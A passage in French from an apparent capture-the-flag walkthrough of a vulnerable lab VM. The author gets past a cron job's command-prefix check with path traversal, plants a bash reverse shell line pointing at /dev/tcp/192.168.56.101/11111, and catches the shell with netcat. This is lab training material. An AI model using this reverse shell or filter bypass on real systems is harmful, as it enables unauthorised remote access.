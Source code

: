 Le fichier cronjob.py nous apporte quelques éclaircissements quant à l'échec de notre _reverse shell_.

```console
bash-4.1$ tail -n1 cronjob.py
tail -n1 cronjob.py
            writefile("command did not start with /home/admin or /usr/bin")
```

La commande placée dans le fichier /tmp/runthis doit démarrer avec soit /home/admin, soit /usr/bin. Soit.

```console
bash-4.1$ echo "/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1" > /tmp/runthis
" > /tmp/runthis./../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1 

bash-4.1$ cat /tmp/runthis
cat /tmp/runthis
/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1
```

Et de l'autre côté... cela fonctionne bien mieux !

```console
root@blinils:~# nc -lvp 11111
listening on [any] 11111 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 38539
bash: no job control in this shell
[admin@localhost ~]$ id
id
uid=501(admin) gid=501(admin) groups=501(admin)

[admin@localhost ~]$ ls -al
ls -al
total 656
drwxrwxrwx. 2 admin     admin       4096 Feb 15 17:08 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx  1 admin     admin          8 Feb 18 09:15 .bash_history
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```
